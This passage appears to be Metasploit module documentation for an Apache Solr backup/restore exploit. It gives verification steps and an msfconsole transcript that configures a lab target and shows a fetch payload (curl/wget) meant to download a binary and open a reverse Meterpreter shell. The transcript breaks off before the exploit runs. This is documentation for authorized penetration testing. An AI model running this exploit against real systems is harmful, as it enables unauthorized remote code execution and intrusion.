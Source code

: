 ```yml
      - .:/mnt/config
volumes:
  solr1:
```

## Verification Steps

1. Start msfconsole
1. Do: `use apache_solr_backup_restore`
1. Set the `RHOST`, `LHOST` and if required, the `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `solr` user.

## Scenarios
### Apache Solr 9.0.0 (no Authentication)

```
msf > use linux/http/apache_solr_backup_restore
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/apache_solr_backup_restore) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(linux/http/apache_solr_backup_restore) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/apache_solr_backup_restore) > options

Module options (exploit/linux/http/apache_solr_backup_restore):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    no        Solr password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.ht
                                         ml
   RPORT      8983             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  solr             no        Path to Solr
   USERNAME   solr             no        Solr username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      GCPCPUvxM        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:
```
